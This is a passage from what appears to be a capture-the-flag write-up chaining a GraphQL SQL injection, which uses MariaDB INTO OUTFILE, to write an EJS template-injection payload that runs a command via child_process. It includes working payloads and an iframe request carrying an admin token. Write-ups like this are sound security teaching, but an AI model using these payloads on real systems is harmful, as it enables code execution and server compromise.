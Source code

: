 It looks like if we can write a file to the server, we could call `/readflag` using the following:

```js
<%= global.process.mainModule.require(`child_process`).execSync(`/readflag`).toString() %>
```

but how? We need to solve two problems:

1) Writing files to the server
2) Triggering the rendering of our EJS payload 

### Writing files via SQL injection

After researching and experimenting with payloads, I came across the following MariaDB expression: [INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/). This allows a query to write its result to a file:

```
query={
  getDataByName(name:"john\\n'UNION SELECT 1,1,1, '<%= global.process.mainModule.require(`child_process`).execSync(`/readflag`).toString() %>' INTO OUTFILE '/app/views/test.ejs'-- ") {
    id
    name
  }
}
```

```json
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYyMTE4NDd9.Pk8ZBsRnCz82MIJhLuAfWJ6H0k4x2DaVlvY18dkCxYc&query=%7B%0A%20%20getDataByName(name%3A%22john%5C%5Cn%27UNION%20SELECT%201%2C1%2C1%2C%20%27%3C%25%3D%20global.process.mainModule.require(%60child_process%60).execSync(%60%2Freadflag%60).toString()%20%25%3E%27%20INTO%20OUTFILE%20%27%2Fapp%2Fviews%2Ftest.ejs%27--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='2000' width='1000'></iframe>"
}
```

![image](../images/htb-ctf-2024/file-write.png)
*SQL file write*

It didn't immediately look good, but after verifying the file was uploaded to `app/views/test.ejs` using our old payload to view `file:///app/views/test.ejs` we can see it worked! 
